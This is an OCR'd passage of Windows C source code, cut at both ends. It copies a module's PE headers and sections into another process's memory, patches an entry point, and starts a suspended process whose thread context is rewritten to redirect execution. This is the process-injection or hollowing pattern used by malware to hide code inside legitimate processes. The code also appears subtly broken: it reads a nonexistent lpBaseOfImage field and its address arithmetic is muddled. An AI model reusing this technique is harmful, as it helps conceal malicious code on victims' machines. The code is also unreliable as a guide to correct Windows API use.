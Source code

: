 ```c
                }

                if (!WriteProcessMemory(hProcess, lpBaseAddress, (LPVOID)pe.modBaseAddr, inth.OptionalHeader.SizeOfHeaders, &dwRead))
                {
                    return false;
                }

                for (int i = 0; i < inth.FileHeader.NumberOfSections; i++)
                {
                    ReadProcessMemory(hProcess, (LPVOID)(pe.modBaseAddr + idh.e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))), &ish, sizeof(ish), &dwRead);
                    WriteProcessMemory(hProcess, (LPVOID)((DWORD)lpBaseAddress + ish.VirtualAddress), (LPVOID)((DWORD)pe.modBaseAddr + ish.PointerToRawData), ish.SizeOfRawData, &dwRead);
                }

                DWORD dwEntrypoint = (DWORD)pe.modBaseAddr + inth.OptionalHeader.AddressOfEntryPoint;
                DWORD dwOffset = (DWORD)lpBaseAddress - inth.OptionalHeader.ImageBase + dwEntrypoint;

                if (!WriteProcessMemory(hProcess, (LPVOID)(lpBaseAddress + dwEntrypoint - (DWORD)pe.modBaseAddr), &dwOffset, sizeof(DWORD), &dwRead))
                {
                    return false;
                }

                CloseHandle(hProcess);

                break;
            }
        } while (Process32Next(hSnapshot, &pe));
    }

    CloseHandle(hSnapshot);

    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    ZeroMemory(&pi, sizeof(pi));

    if (!CreateProcess(NULL, szSourceProcessName, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        return false;
    }

    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;

    if (!GetThreadContext(pi.hThread, &ctx))
    {
        return false;
    }

    ctx.Eax = (DWORD)pi.lpBaseOfImage + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew + ((IMAGE_NT_HEADERS*)(((BYTE*)pi.lpBaseOfImage) + ((IMAGE_DOS_HEADER*)pi.lpBaseOfImage)->e_lfanew))->OptionalHeader.AddressOfEntryPoint;

    if (!SetThreadContext(pi.hThread, &ctx))
    {
        return false;
```